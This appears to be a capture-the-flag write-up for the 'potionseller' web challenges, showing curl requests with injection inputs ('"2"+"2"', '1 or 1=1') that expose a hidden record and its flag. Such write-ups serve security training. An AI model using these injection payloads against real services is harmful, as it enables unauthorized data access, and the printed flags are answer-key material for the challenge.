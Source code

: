 ```json
    "longdescription": "Are you in a bit of a pickle? Did a giant troll just bash your head in with a large tree perhaps? Do not fear - this Health potion is just the thing you need to get back on your feet!"
  }
}
```
```json
$ curl https://potionseller.secu-web.blackfoot.dev/potions/name
{}
```

## Solution

Adding "2"+"2" isn't detected like the operations mentionned above, not sure why:
```json
$ curl 'https://potionseller.secu-web.blackfoot.dev/potions/"2"+"2"'
{
  "potion": {
    "id": 4,
    "name": "My Strongest Potion",
    "description": "This potion will kill a dragon - let alone a man!",
    "price": 100000000,
    "img": "https://78.media.tumblr.com/5e7b833f6932170b688ad73fbfdfd862/tumblr_mwgbvlkRdo1stqkamo1_500.jpg",
    "longdescription": "It's just water with a colorant in it, don't tell anyone! The flag is: BFS{I_n33d_y0uR_5tr0ng3St_p07ion!}"
  }
}
```

flag: ```BFS{I_n33d_y0uR_5tr0ng3St_p07ion!}```

# potionseller2

## What it is

Almost the same as potionseller except:
- the strongest potion is available without injection
- A link to the "Admin Space" appeared on the site, connecting requires a login and a password

## Solution

(see solve.js)

We need to get credentials for the admin.

The server has new measures in place to catch injection attempts:
```json
https://potionseller2.secu-web.blackfoot.dev/potions/1 or 1=1
{
  "err": "That looks like code! I don't like code, only potions!"
}
```

